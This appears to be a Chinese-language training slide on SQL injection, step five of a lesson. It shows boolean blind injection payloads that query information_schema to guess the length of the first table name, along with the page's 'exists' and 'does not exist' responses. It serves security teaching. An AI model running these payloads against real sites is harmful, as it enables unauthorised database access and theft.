

SQL注入漏洞

第五步：猜解表名长度
1' and length(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1))=1 # 显示不存在

1' and length(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1))=2 # 显示不存在

…

1' and length(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1))=9 # 显示存在，说明第一个表名长度为9。